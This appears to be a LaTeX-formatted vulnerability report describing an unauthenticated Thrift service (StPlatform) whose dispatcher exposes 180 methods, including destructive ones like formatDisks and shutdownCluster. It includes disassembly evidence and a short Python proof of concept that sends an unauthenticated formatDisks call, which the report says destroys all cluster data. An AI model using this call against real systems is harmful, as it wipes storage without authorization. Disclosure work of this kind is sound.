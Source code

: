 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection*{Vulnerability Description}

\texttt{StPlatformProcessor::dispatchCall} handles all 180 methods in the
\texttt{StPlatform} Thrift service by matching the incoming method name as a
string and calling the corresponding handler. There is no authentication gate
before or after the dispatch. Disassembly of \texttt{process\_formatDisks} at
\texttt{0x9947d0} confirms the sequence: RTTI type check, args parse,
\texttt{readMessageEnd}, handler invocation --- no token check at any point.

Destructive methods confirmed by name in the 6.0.2b symbol table:
\texttt{formatDisks}, \texttt{shutdownCluster}, \texttt{deleteDatastore},
\texttt{deleteDatastoreSnapshots}, \texttt{deleteFiles}, \texttt{removeNode},
\texttt{removeDisk}, \texttt{clusterUpgrade}, \texttt{enableZKAuth},
\texttt{resetZkConnectionString}, \texttt{setPlatformClusterAccessPolicy},
\texttt{setPlatformMaintenanceMode}, \texttt{blacklistDisks},
\texttt{retireDisks}, \texttt{unclaimDisks}, \texttt{revertDatastoreSnapshot},
\texttt{teardownNRNFS}, \texttt{setDataWriteThru}.

\subsection*{Technical Evidence (6.0.2b)}

\begin{lstlisting}
# Total process_* handlers:
nm storfs | c++filt | grep "StPlatformProcessor::process_" | wc -l
# -> 180

# Key addresses:
0x9947d0  T  StPlatformProcessor::process_formatDisks(int, TProtocol*, TProtocol*, void*)
0x98a5d0  T  StPlatformProcessor::dispatchCall(...)  # string-match, no auth
0x8c27e0  T  StartNonBlockingServer(void*)
\end{lstlisting}

\subsection*{Reproduction}

From any host with TCP access to the stCtlVM StPlatform Thrift port:

\begin{lstlisting}[style=shell]
# Call formatDisks with no credentials -- destroys all cluster data.
# CONTROLLED ENVIRONMENT ONLY.
python3 -c "
from thrift.transport import TSocket, TTransport
from thrift.protocol import TBinaryProtocol
transport = TTransport.TBufferedTransport(TSocket.TSocket('<ctlvm_ip>', <port>))
protocol  = TBinaryProtocol.TBinaryProtocol(transport)
transport.open()
protocol.writeMessageBegin('formatDisks', 1, 1)
protocol.writeMessageEnd()
transport.flush()
"
\end{lstlisting}
\end{document}
